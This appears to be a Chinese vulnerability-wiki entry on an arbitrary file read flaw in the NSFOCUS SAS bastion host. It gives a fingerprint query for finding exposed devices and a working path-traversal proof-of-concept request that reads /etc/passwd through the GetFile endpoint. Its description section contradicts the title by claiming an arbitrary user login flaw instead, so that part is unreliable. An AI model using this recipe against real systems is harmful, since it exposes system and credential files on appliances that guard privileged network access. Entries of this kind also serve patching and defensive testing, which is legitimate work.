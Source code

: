 # 绿盟 SAS堡垒机 GetFile 任意文件读取漏洞

## 漏洞描述

绿盟堡垒机存在任意用户登录漏洞，攻击者通过漏洞包含 www/local_user.php 实现任意⽤户登录

## 漏洞影响

<a-checkbox checked>绿盟 SAS堡垒机</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="'/needUsbkey.php?username='"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1687843929584-e793a136-93ec-4b19-8ee9-5738c91681e8.png)

漏洞存在于文件 GetFileController.php 文件中

![img](/assets/PeiQi-Wiki/img/1691645164688-78430d67-4ce1-4d26-8854-5d330b034c5e.png)

验证POC

```plain
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```

![image.png](/assets/PeiQi-Wiki/img/1688361725621-1d85a406-2f2c-492a-8c0f-5d54ea282f2a.png)